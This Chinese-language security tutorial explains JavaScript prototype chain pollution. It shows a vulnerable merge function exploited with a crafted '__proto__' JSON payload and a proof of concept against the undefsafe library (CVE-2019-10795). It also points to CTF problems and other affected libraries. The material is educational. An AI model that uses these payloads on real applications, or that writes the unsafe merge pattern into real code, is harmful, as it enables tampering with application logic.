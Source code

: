 # 原型链污染介绍

## Javascript的继承与原型链

```javascript
//所以可以像这样以创建函数的方式创建一个类
function a(){
 b=2
 this.func = () => console.log(b)
}
obj = new a() //实例对象obj
obj.func()
```

在javascript中，一切都是对象，他也只有对象这一种结构。而对象和对象间又存在继承关系。

```javascript
var test = {
 a:1 ,
 m: function(){
  console.log(this.a);
  }
};
var p = Object.create(test);//p继承test

p.a=4;//继承test的变量
p.m();//继承test的函数
/**result
4
**/
```

每个实例对象(`object`)都有一个私有属性(`__proto__`)指向它的构造函数的原型对象(`prototype`)，每个实例对象还有一个属性(`constructor`)指向原型的构造函数。该原型对象也有一个自己的原型对象(`__proto__`)，层层向上直到一个对象的原型对象为`null`。根据定义，`null` 没有原型，并作为这个原型链中的最后一个环节。

![img](原型链污染/3.png)

```javascript
function test(){
 b=2
 this.func = () => console.log(b)
}
obj = new test()
obj.func()

test.prototype === obj.__proto__
test.prototype.constructor === test
obj.__proto__.constructor === test
```

1. 原型 任何对象都有一个原型对象，这个原型对象由对象的内置属性\_\_proto_它的构造函数的prototype指向的对象，即任何对象都是由一个构造函数创建的
2. 原型链 原型链的核心就是依赖对象`__proto__`的指向，当访问的属性在该对象不存在时，就会向上从该对象构造函数的`prototype`的进行查找，直至查找到Object的原型null为止。

--------------------------------------------------上文来自稻草人安全公众号--------------------------------------------------------------------------

```javascript
> var a={b:3}
undefined
> console.log(a)
{ b: 3 }
undefined
> console.log(a.__proto__)
{}
undefined
> a.__proto__.c='5'
'5'
> console.log(a)
{ b: 3 }
undefined
> console.log(a.c)
5
undefined
>        
```

# 原型链污染应用

## 赋值函数进行原型链污染

### 对象合并(merge)



```javascript
function merge(target, source) {
    for (let key in source) {
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}
let object1 = {}
let object2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')   //JSON解析,这里必须加上,不然__proto__就会被解析,而不是被当为键值
merge(object1, object2)
console.log(object1.a, object1.b)
object3 = {}
console.log(object3.b)
```

`merge`函数首先迭代第二个对象b上的所有属性(因为在相同的键值对的情况下，第二个对象是优先的)。
如果属性同时存在于第一个和第二个参数上，并且它们都是`Object`类型，那么`Merge`函数将重新开始合并它。

![image-20210402113003323](原型链污染/image-20210402113003323.png)

## 第三方库进行原型链污染

### undefsafe- CVE-2019-10795

#### undefsafe介绍

undefsafe是一款支持设置值的函数。

undefsafe 2.0.3之前版本中存在安全漏洞。攻击者可借助‘a’函数利用该漏洞添加或修改Object.prototype属性。

```
npm install --save undefsafe@2.0.0
```

#### undefsafe用处

```javascript
var object = { 
	a: {
		b: {
			c: 1, 
			d: [1,2,3], 
			e: 'qqqq' 
		} 
	} 
};
console.log(object.a.b.e) 
console.log(object.a.c.e) 
// TypeError: Cannot read property 'e' of undefined 
```

可以看到最后一个输出的报错的，如果是大量的编程就会报错，为了解决这个问题，我们使用

undefsafe帮助我们解决

#### 使用undefsafe解决报错

```javascript
var a = require("undefsafe");//引用模块 
var object = { 
	a: {
		b:{
		c: 1, 
		d: [1,2,3],
		e: 'qqqq' 
		} 
	} 
};
console.log(a(object,'a.b.e')) //qqqq console.log(a(object,'a.c.e')) //undefined
```

可以看到如果使用undefsafe模块来引用，在访问对象不存在的属性的时候不会报错，而是undefined (解决了报错的问题)

#### 使用undefsafe修改存在对象的属性

```javascript
var a = require("undefsafe");//引用模块 
var object = { 
	a: {
		b:{
		c: 1, 
		d: [1,2,3],
		e: 'qqqq' 
		} 
	} 
};
console.log(object)//{ a: { b: { c: 1, d: [Array], e: 'qqqq' } } }
a(object,'a.b.c','yes')     
a(object,'a.d.c','no')
console.log(object)//{ a: { b: { c: 'yes', d: [Array], e: 'qqqq' }, c: 'no' } }
```

#### 使用underfsafe修改不存在对象的属性

```javascript
var a = require("undefsafe");//引用模块 
var object = { 
	a: {
		b:{
		c: 1, 
		d: [1,2,3],
		e: 'qqqq' 
		} 
	} 
};
console.log(object)//{ a: { b: { c: 1, d: [Array], e: 'qqqq' } } }
a(object,'a.f.e','nice')//修改不存在的属性 
console.log(object)//{ a: { b: { c: 1, d: [Array], e: 'qqqq' }, e: 'nice' } }
```

#### undefsafe模块漏洞分析

```javascript
var a = require("undefsafe");//引用模块 
var object = { 
	a: {
		b:{
		c: 1, 
		d: [1,2,3],
		e: 'qqqq' 
		} 
	} 
};
a(object,"__proto__.evil","hacker")
console.log(object.evil)//hacker
```

ctf例题:[网鼎杯 2020青龙组]notes

https://www.4hou.com/index.php/posts/Zppg

### 其他第三方库的原型链污染

前面的只是一个例子,这里还有一些其他的例子

```
https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html  //lodash库
antctf 8-bit pub    //shvl库
```

